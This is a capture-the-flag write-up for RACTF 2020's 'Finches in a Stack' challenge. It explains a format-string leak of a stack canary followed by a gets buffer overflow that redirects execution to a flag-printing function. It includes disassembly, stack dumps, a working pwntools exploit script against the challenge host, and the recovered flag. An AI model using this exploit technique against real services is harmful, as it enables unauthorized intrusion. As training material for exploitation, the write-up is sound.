


# Really Awesome CTF 2020

## Finches in a Stack

> 350
>
> Challenge instance ready at `88.198.219.20:31752`
>
> There's a service at ..., exploit it to get the flag.
>
> Author: Ironstone
>
> [`fias`](fias)

Tags: _pwn_ _x86_ _rop_ _bof_ _stack-canary_ _format-string_

## Summary

Format-string exploit leaks canary permitting `gets` to _get_ through, redirection execution to `flag`.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Some mitigations in place.  No PIE will make easy work of this.


### Decompile with Ghidra



There are `gets` vulnerabilities at lines 20 and 34, but a stack canary will detect smashing the stack.  However, line 32 has a format-string vulnerability we can use to leak the value of the canary.



The canary is `0x10` from the return address, using GDB it should be easy to find the position in the stack; just set a breakpoint at `printf`, run, and checkout the stack:

```
0xffffd650│+0x0000: 0xffffd668  →  "blah!\n"   ← $esp
0xffffd654│+0x0004: 0xf7fe7b24  →   pop edx
0xffffd658│+0x0008: 0x00000000
0xffffd65c│+0x000c: 0x08049246  →  <say_hi+13> add ebx, 0x2dba
0xffffd660│+0x0010: 0xf7fab000  →  0x001e9d6c
0xffffd664│+0x0014: 0xf7fab000  →  0x001e9d6c
0xffffd668│+0x0018: "blah!\n"
0xffffd66c│+0x001c: 0x08000a21 ("!\n"?)
0xffffd670│+0x0020: 0x0804a048  →  "I don't want you attacking anyone!\n"
0xffffd674│+0x0024: 0xf7ffd990  →  0x00000000
0xffffd678│+0x0028: 0x0804c000  →  0x0804bf0c  →  0x00000001
0xffffd67c│+0x002c: 0xd7e35400
0xffffd680│+0x0030: 0x0804c000  →  0x0804bf0c  →  0x00000001
0xffffd684│+0x0034: 0xf7fab000  →  0x001e9d6c
0xffffd688│+0x0038: 0xffffd6a8  →  0x00000000  ← $ebp
0xffffd68c│+0x003c: 0x0804936c  →  <main+113> mov eax, 0x0
```

`main+113` is the return address, `0x10` (16) bytes above that is `0xd7e35400`.  That is the canary.  Start counting from below `$esp`.  The canary is the 11th parameter.  By passing `%11$p` to the first `gets` the `printf` will emit the canary.  With than in hand we can overwrite the return address with the address of `flag`:

```
void flag(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0xe2a));
  return;
}
```

`flag` calls `system` with an parameter of `iVar1 + 0xe2a`.  To figure out what that actually is, take the address after `iVar1 = __x86.get_pc_thunk.ax();` and add `0xe2a` to it:

```
        080491d9 e8 9d 01 00 00        CALL       __x86.get_pc_thunk.ax
        080491de 05 22 2e 00 00        ADD        EAX,0x2e22
```

`0x80491de` + `0xe2a` = `0x004a008`.  Then look at that address in the disassembly:

```
        0804a008 2f 62 69        ds         "/bin/cat flag.txt"
                 6e 2f 63 
                 61 74 20 
```

So, `system("/bin/cat flag.txt")`.

> Before moving on, take a look at parameter three in the stack.  We'll need that for `fiap`.

## Exploit

```
#!/usr/bin/python3

from pwn import *
import sys

#p = process('./fias')
p = remote('88.198.219.20',64617)

binary = ELF('./fias')

p.recvuntil('Hi! What\'s your name? ')
p.sendline('%11$p')
p.recvuntil('Nice to meet you, ')
canary = int(p.recvline().strip()[:10],16)
print(hex(canary))

p.recvuntil('Do YOU want to pet my canary?')

payload  = (0x29 - 16) * b'A'
payload += p32(canary)
payload += 3 * p32(0x0) # ebx, edi, ebp
payload += p32(binary.symbols['flag'])

p.sendline(payload)
p.recvline()
_ = p.recv(100).decode().strip()
print(_)
```

If you look at the stack diagram above, the second `gets` buffer `local_29` is `0x29` bytes from the return address.  Without a canary, we'd just write `0x29` bytes and start ROP'n.  However with a canary located 16 (`0x10`) bytes from the return address, we'll have to send 16 bytes less than `0x29`, followed by the canary, and then 12 more bytes before overwriting the return address with the address of `flag`.

Output:

```
# ./exploit.py
[+] Opening connection to 88.198.219.20 on port 64617: Done
[*] '/pwd/datajerk/ractf2020/fias/fias'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xbb3c2000
ractf{St4ck_C4n4ry_FuN!}
```

